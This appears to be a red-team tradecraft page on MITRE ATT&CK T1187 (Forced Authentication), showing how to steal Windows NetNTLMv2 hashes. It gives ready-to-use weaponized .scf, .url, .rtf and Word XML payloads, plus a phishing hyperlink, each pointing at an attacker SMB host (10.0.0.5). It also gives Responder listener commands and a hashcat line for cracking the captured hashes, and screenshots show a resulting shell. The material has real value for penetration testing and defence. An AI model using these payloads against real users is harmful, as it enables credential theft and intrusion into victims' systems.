 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution via Hyperlink

Let's create a Word document that has a hyperlink to our attacking server where `responder` will be listening on port 445:

![](../../.gitbook/assets/forced-auth-word.png)

{% file src="../../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Let's start `Responder` on our kali box:

{% code title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode %}

Once the link in the document is clicked, the target system sends an authentication request to the attacking host. Since responder is listening on the other end, victim's `NetNTLMv2` hash is captured:

![](../../.gitbook/assets/forced-auth-hashes.png)

The retrieved hash can then be cracked offline with hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../../.gitbook/assets/forced-auth-shell-1.png)

## Execution via .SCF

Place the below `fa.scf` file on the attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

{% file src="../../.gitbook/assets/fa.scf" caption="fa.scf" %}

A victim user `low` opens the share `\\10.0.0.7\tools` and the `fa.scf` gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.0.0.5 where responder is listening:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded through the browser and as soon as the user navigates to the `Downloads` folder, users's hash is stolen:

![](../../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

{% code title="c:\\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode %}

Once the victim navigates to the C: where `link.url` file is placed, the OS tries to authenticate to the attacker's malicious SMB listener on `10.0.0.5` where NetNTLMv2 hash is captured:

![](../../.gitbook/assets/forced-authentication-url.gif)

## Execution via .RTF

Weaponizing .rtf file, which will attempt to load an image from the attacking system:

{% code title="file.rtf" %}
```csharp
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://10.0.0.5/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Starting authentication listener on the attacking system:

{% code title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode %}

Executing the file.rtf on the victim system gives away user's hashes:

![](../../.gitbook/assets/rtf-hashes.gif)

## Execution via .XML

MS Word Documents can be saved as .xml:

![](../../.gitbook/assets/screenshot-from-2018-12-09-16-23-39.png)

This can be exploited by including a tag that requests the document stylesheet \(line 3\) from an attacker controlled server. The victim system will share its NetNTLM hashes with the attacker when attempting to authenticate to the attacker's system:

```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\10.0.0.5\bad.xsl" ?>
```

Below is the attack illustrated:

![](../../.gitbook/assets/peek-2018-12-09-16-44.gif)

{% file src="../../.gitbook/assets/test-xls-stylesheet.xml" caption="test-xls-stylesheet.xml" %}

## Execution via Field IncludePicture

Create a new Word document and insert a new field `IncludePicture`:

![](../../.gitbook/assets/screenshot-from-2018-12-09-17-01-11.png)

Save the file as .xml. Note that the sneaky image url is present in the XML:

![](../../.gitbook/assets/screenshot-from-2018-12-09-17-02-32.png)

Launching the document gives away victim's hashes immediately:

![](../../.gitbook/assets/peek-2018-12-09-17-04.gif)

{% file src="../../.gitbook/assets/smb-image.xml" caption="smb-image.xml" %}

## References

{% embed url="http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf" caption="" %}

{% embed url="https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/" caption="" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" caption="" %}

{% embed url="https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208" caption="" %}

{% embed url="https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/" caption="" %}

{% embed url="https://twitter.com/bohops/status/1062935197107322880?s=12" caption="" %}

{% embed url="https://www.securify.nl/blog/SFY20180501/living-off-the-land\_-stealing-netntlm-hashes.html" caption="" %}


